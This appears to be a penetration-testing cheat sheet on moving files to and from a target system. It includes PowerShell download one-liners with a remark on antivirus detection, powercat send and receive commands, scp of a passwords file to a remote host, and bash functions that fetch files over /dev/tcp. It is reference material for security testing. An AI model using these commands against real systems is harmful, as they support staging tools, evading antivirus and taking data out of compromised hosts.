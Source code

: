 # Transferring Files

## Services to Host Files on your System: 

General Options: 

FTP:

Install pyftpdlib
- pip3 install pyftpdlib

Pure-ftpd
- sudo apt install pure-ftpd
- service pure-ftpd start

Run (-w flag allows anonymous write access)
- Python3 -m pyftpdlib -p 21 -w

Web: 

- Python3 -m http.server 443
- service apache2 start

Powershell: 

Raw (Will get flagged by AV/AMSI): 

- powershell -c (New-Object Net.WebClient).DownloadFile('http://172.21.0.0:port/file', 'output-file'
- powershell -c Invoke-WebRequest -Uri "http://172.21.0.0" -OutFile "C:\path\file"

Use Powercat: 

Send File:
    powercat -c 10.1.1.1 -p 443 -i C:\inputfile
Recieve File:
    powercat -l -p 8000 -of C:\inputfile

Linux: 

scp: 

- scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2

scp through ssh: 

- scp -P 2322 passwords.txt remote_username@172.21.0.2:/remote/directory

scp remote file to local system: 

- scp remote_username@172.21.0.2:/remote/file.txt /local/directory


## Services to allow you to upload files to your system from the target: 

- SimpleHTTPServer Upload: https://gist.github.com/touilleMan/eb02ea40b93e52604938

## Download a file using Bash

```bash
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
```

```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```

Source: https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et